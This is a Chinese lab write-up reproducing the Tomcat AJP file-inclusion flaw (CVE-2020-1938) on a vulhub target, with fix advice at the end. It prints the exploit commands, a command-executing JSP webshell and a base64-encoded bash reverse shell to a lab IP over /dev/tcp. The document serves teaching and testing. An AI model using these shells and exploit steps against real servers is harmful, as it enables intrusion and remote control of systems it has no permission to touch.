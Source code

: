 # Aapache Tomcat AJP-文件包含漏洞（CVE-2020-1938）

### 0x00 前言

Ghostcat（幽灵猫） 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

影响版本：

```
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
```

### 0x01 环境搭建

这里使用vulhub搭建靶场环境`tomcat/CVE-2020-1938`

![image-20230410153328550](https://user-images.githubusercontent.com/122008722/230865459-0e9b51dc-c470-46b7-8319-1e36dcefebdf.png)

### 0x02 复现步骤

1、准备POC`https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/master/CNVD-2020-10487-Tomcat-Ajp-lfi.py`

2、POC需要python2环境启动

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 目标IP或HOST -p 目标端口 -f 文件路径
```

![image-20230410160311933](https://user-images.githubusercontent.com/122008722/230865483-2457df82-565d-4ed7-8db1-87f71d11ab0f.png)

3、由于靶场没有文件上传漏洞利用点，我们手动为靶场上传shell文件，内容如下：

```jsp
# 有回显版本
<%
java.io.InputStream in = Runtime.getRuntime().exec("需要执行的命令").getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
%>


# 无回显版本
<%
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}")
%>
```

```shell
docker cp shell.txt 29b32:/usr/local/tomcat/webapps/ROOT/
```

![image-20230410161431354](https://user-images.githubusercontent.com/122008722/230865520-3140c91b-cd10-4849-8efd-a6036f0656bc.png)

4、利用脚本进行反弹shell

修改poc，添加后缀`.jsp`

![image-20230410161748863](https://user-images.githubusercontent.com/122008722/230865535-9e7ae3ef-7e07-476a-b4f5-97dce15f372a.png)

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 192.168.12.130 -p 8009 -f /WEB-INF/shell.txt
```

![image-20230410163038478](https://user-images.githubusercontent.com/122008722/230865592-b3857f4d-3bca-4d94-8218-73a0a5c126f1.png)

### 0x03 修复建议

1、关闭AJP 协议的端口

2、更新官方最新补丁
